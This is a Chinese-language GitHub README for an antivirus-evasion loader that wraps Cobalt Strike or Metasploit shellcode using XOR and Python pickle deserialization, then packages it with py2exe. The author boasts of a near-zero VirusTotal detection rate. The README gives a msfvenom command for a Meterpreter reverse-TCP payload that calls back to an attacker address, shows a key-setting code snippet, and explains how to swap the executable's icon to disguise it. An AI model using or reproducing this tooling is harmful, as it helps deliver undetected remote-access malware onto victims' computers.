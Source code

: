 # CS MSF 均可使用
_描述：前阵子可动态免杀绝大部分杀软，最近发现微软的Defender 动态免杀 不了，想了想还是放出来吧，供大家参考下_

**可以的话，老哥们点个star吧 嘻嘻**

![图片](https://user-images.githubusercontent.com/46078482/106402903-dea92180-6466-11eb-8a0a-99bc5e06ec4a.png)

`1、Filehandle.py用于处理CS MSF 生成的shellcode文件 提取 shellcode`

`2、ver.py 是核心生成代码，需修改`

`3、exeSetup.py 是 py2exe 打包启动文件，可修改`

**VT上只有匹配到了1个！还是很Nice**

![图片](https://user-images.githubusercontent.com/46078482/106403260-9854c200-6468-11eb-84fb-af5287310417.png)



# 原理：
python 反序列化免杀

# 环境：
_测试时，我发现 python 3.7.0 这个版本兼容好，其他版本会有些问题，打包的程序可能无法正常使用！！！_

	* python 3.7.0  
	* py2exe库 【pyinstall指纹已经被很多杀软收集了】
	* python3.7.0淘宝镜像-http://npm.taobao.org/mirrors/python/3.7.0/python-3.7.0.exe
	


# 步骤
** 1、生成shellcode

	* CS 生成C语言格式
	* MSF msfvenom -a x86 -p windows/meterpreter/reverse_tcp lhost=192.168.47.147 lport=4444 -b '\x00' -f python

** 2、修改 ver.py 文件里的 shellcode值

  [1] Filehandle.py 用于处理 第一步里的 shellcode文件
  
  [2] ver.py 可修改异或密钥

          #key 设定shellcode的密钥
          key = 'liam'
          mess = get_shellcode(shellcode, key)
          #print(mess)
          ret = pickle.dumps(Student())
          decode_hex = codecs.getdecoder("hex_codec")
          encode_hex = codecs.getencoder("hex_codec")
          
          ret_hex = encode_hex(ret)[0]
          #key2 设定反序列化里的密钥
          key2 = "byav"


** 3、可在 exeSetup.py 修改生成的图标

     setup(
      options=options,    
      description = "this is a py2exe test",   
      zipfile=None,
      windows = [{"script":'launch.py',"icon_resources": [(1, u"softmgr.ico")]}]  #可选择其他图标ico
      )


** 4、运行 ver.py 后在 output 目录可查看到 launch.exe
